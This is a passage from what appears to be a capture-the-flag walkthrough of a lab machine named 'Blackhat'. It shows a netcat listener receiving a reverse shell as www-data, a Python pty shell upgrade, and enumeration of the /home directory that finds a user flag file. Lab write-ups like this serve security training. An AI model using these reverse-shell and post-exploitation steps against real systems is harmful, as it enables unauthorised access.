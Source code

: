 ```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Blackhat]
└─$ sudo rlwrap nc -lvnp 443           
[sudo] password for emvee: 
listening on [any] 443 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.40] 54214
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
hostname
blackhat
pwd
/
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:35:47:79 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.40/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 381sec preferred_lft 381sec
    inet6 fe80::a00:27ff:fe35:4779/64 scope link 
       valid_lft forever preferred_lft forever

```

Let's upgrade the shell a little bit.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@blackhat:/$ 

```
One of my first steps is to identify user home directories with associated files. This can be done with the command `ls -ahlR /home`.
```bash
www-data@blackhat:/$ ls -ahlR /home
ls -ahlR /home
/home:
total 12K
drwxr-xr-x  3 root      root      4.0K Nov 11  2022 .
drwxr-xr-x 18 root      root      4.0K Nov 10  2022 ..
drwxr-xr-x  3 darkdante darkdante 4.0K Nov 13  2022 darkdante

/home/darkdante:
total 28K
drwxr-xr-x 3 darkdante darkdante 4.0K Nov 13  2022 .
drwxr-xr-x 3 root      root      4.0K Nov 11  2022 ..
lrwxrwxrwx 1 root      root         9 Nov 11  2022 .bash_history -> /dev/null
-rw-r--r-- 1 darkdante darkdante  220 Nov 11  2022 .bash_logout
-rw-r--r-- 1 darkdante darkdante 3.5K Nov 11  2022 .bashrc
drwxr-xr-x 3 darkdante darkdante 4.0K Nov 11  2022 .local
-rw-r--r-- 1 darkdante darkdante  807 Nov 11  2022 .profile
-rwx------ 1 darkdante darkdante   33 Nov 11  2022 user.txt

/home/darkdante/.local:
total 12K
drwxr-xr-x 3 darkdante darkdante 4.0K Nov 11  2022 .
drwxr-xr-x 3 darkdante darkdante 4.0K Nov 13  2022 ..
drwx------ 3 darkdante darkdante 4.0K Nov 11  2022 share
```